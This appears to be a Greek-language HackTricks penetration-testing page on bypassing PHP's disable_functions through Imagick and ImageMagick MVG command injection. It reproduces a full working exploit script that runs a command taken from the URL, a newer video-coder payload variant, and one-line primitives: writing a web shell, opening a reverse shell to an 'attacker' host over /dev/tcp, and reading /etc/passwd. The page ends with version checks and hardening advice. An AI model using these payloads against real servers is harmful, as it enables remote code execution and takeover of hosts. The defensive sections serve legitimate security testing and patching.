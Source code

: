 # Imagick <= 3.3.0  ‑ PHP >= 5.4  *disable_functions* Bypass

{{#include ../../../../banners/hacktricks-training.md}}

> Η γνωστή οικογένεια σφαλμάτων *ImageTragick* (CVE-2016-3714 κ.ά.) επιτρέπει σε έναν επιτιθέμενο να αποκτήσει πρόσβαση στο υποκείμενο δυαδικό αρχείο **ImageMagick** μέσω κατεργασμένων εισόδων MVG/SVG. Όταν η επέκταση PHP **Imagick** είναι παρούσα, αυτό μπορεί να εκμεταλλευτεί για την εκτέλεση εντολών shell, ακόμη και αν κάθε συνάρτηση PHP που σχετίζεται με την εκτέλεση είναι στη μαύρη λίστα με `disable_functions`.
>
> Το αρχικό PoC που δημοσιεύθηκε από τον RicterZ (Chaitin Security Research Lab) τον Μάιο του 2016 αναπαράγεται παρακάτω. Η τεχνική συναντάται ακόμη τακτικά κατά τη διάρκεια σύγχρονων ελέγχων PHP 7/8, επειδή πολλοί πάροχοι κοινής φιλοξενίας απλώς συντάσσουν την PHP χωρίς `exec`/`system` αλλά διατηρούν έναν παρωχημένο συνδυασμό Imagick + ImageMagick.

From <http://blog.safebuff.com/2016/05/06/disable-functions-bypass/>
```php
# Exploit Title : PHP Imagick disable_functions bypass
# Exploit Author: RicterZ  (ricter@chaitin.com)
# Versions      : Imagick <= 3.3.0  |  PHP >= 5.4
# Tested on     : Ubuntu 12.04 (ImageMagick 6.7.7)
# Usage         : curl "http://target/exploit.php?cmd=id"
<?php
// Print the local hardening status
printf("Disable functions: %s\n", ini_get("disable_functions"));
$cmd = $_GET['cmd'] ?? 'id';
printf("Run command: %s\n====================\n", $cmd);

$tmp   = tempnam('/tmp', 'pwn');     // will hold command output
$mvgs  = tempnam('/tmp', 'img');     // will hold malicious MVG script

$payload = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/x.jpg"|$cmd >$tmp")'
pop graphic-context
EOF;

file_put_contents($mvgs, $payload);
$img = new Imagick();
$img->readImage($mvgs);     // triggers convert(1)
$img->writeImage(tempnam('/tmp', 'img'));
$img->destroy();

echo file_get_contents($tmp);
?>
```
---

## Γιατί λειτουργεί;

1. `Imagick::readImage()` δημιουργεί διαφανώς το **ImageMagick** *delegate* (`convert`/`magick`) δυαδικό αρχείο.
2. Το σενάριο MVG ορίζει το *fill* σε μια εξωτερική URI. Όταν εισαχθεί ένα διπλό εισαγωγικό (`"`), το υπόλοιπο της γραμμής ερμηνεύεται από το `/bin/sh ‑c` που χρησιμοποιεί εσωτερικά το ImageMagick → αυθαίρετη εκτέλεση κελύφους.
3. Όλα συμβαίνουν εκτός του ερμηνευτή PHP, επομένως οι *`disable_functions`*, *open_basedir*, `safe_mode` (καταργήθηκε στην PHP 5.4) και παρόμοιους περιορισμούς εντός διαδικασίας παρακάμπτονται εντελώς.

## Κατάσταση 2025 – είναι **ακόμα** σχετική

* Οποιαδήποτε έκδοση Imagick που βασίζεται σε μια ευάλωτη υποδομή ImageMagick παραμένει εκμεταλλεύσιμη. Σε εργαστηριακές δοκιμές, το ίδιο payload λειτουργεί σε PHP 8.3 με **Imagick 3.7.0** και **ImageMagick 7.1.0-51** που έχει μεταγλωττιστεί χωρίς σκληρυμένο `policy.xml`.
* Από το 2020 έχουν βρεθεί αρκετές επιπλέον διαδρομές εκτέλεσης εντολών (`video:pixel-format`, `ps:`, `text:` coders…). Δύο πρόσφατα δημόσια παραδείγματα είναι:
* **CVE-2020-29599** – εκτέλεση κελύφους μέσω του *text:* coder.
* **GitHub issue #6338** (2023) – εισαγωγή στον *video:* delegate.

Εάν το λειτουργικό σύστημα παρέχει το ImageMagick < **7.1.1-11** (ή 6.x < **6.9.12-73**) χωρίς περιοριστικό αρχείο πολιτικής, η εκμετάλλευση είναι απλή.

## Σύγχρονες παραλλαγές payload
```php
// --- Variant using the video coder discovered in 2023 ---
$exp = <<<MAGICK
push graphic-context
image over 0,0 0,0 'vid:dummy.mov" -define video:pixel-format="rgba`uname -a > /tmp/pwned`" " dummy'
pop graphic-context
MAGICK;
$img = new Imagick();
$img->readImageBlob($exp);
```
Άλλες χρήσιμες πρωτογενείς κατά τη διάρκεια CTFs / πραγματικών εμπλοκών:

* **File write**  – `... > /var/www/html/shell.php`  (γράψτε web-shell έξω από *open_basedir*)
* **Reverse shell** – `bash -c "bash -i >& /dev/tcp/attacker/4444 0>&1"`
* **Enumerate** – `id; uname -a; cat /etc/passwd`

## Γρήγορη ανίχνευση & καταμέτρηση
```bash
# PHP side
php -r 'echo phpversion(), "\n"; echo Imagick::getVersion()["versionString"], "\n";'

# System side
convert -version | head -1                 # ImageMagick version
convert -list policy | grep -iE 'mvg|https|video|text'   # dangerous coders still enabled?
```
Αν η έξοδος δείχνει ότι οι κωδικοποιητές `MVG` ή `URL` είναι *ενεργοποιημένοι*, ο στόχος είναι πιθανό να είναι εκμεταλλεύσιμος.

## Mitigations

1. **Patch/Upgrade**  – Χρησιμοποιήστε το ImageMagick ≥ *7.1.1-11* (ή την τελευταία 6.x LTS) και το Imagick ≥ *3.7.2*.
2. **Harden `policy.xml`**  – ρητά *απενεργοποιήστε* τους κωδικοποιητές υψηλού κινδύνου:

```xml
<policy domain="coder" name="MVG" rights="none"/>
<policy domain="coder" name="MSL" rights="none"/>
<policy domain="coder" name="URL" rights="none"/>
<policy domain="coder" name="VIDEO" rights="none"/>
<policy domain="coder" name="PS" rights="none"/>
<policy domain="coder" name="TEXT" rights="none"/>
```

3. **Remove the extension**  σε μη αξιόπιστα περιβάλλοντα φιλοξενίας. Στις περισσότερες στοίβες ιστού, το `GD` ή το `Imagick` δεν απαιτείται αυστηρά.
4. Αντιμετωπίστε το `disable_functions` μόνο ως *άμυνα σε βάθος* – ποτέ ως κύριο μηχανισμό απομόνωσης.

## References

* [GitHub ImageMagick issue #6338 – Command injection via video:pixel-format (2023)](https://github.com/ImageMagick/ImageMagick/issues/6338)
* [CVE-2020-29599 – ImageMagick shell injection via text: coder](https://nvd.nist.gov/vuln/detail/CVE-2020-29599)
{{#include ../../../../banners/hacktricks-training.md}}
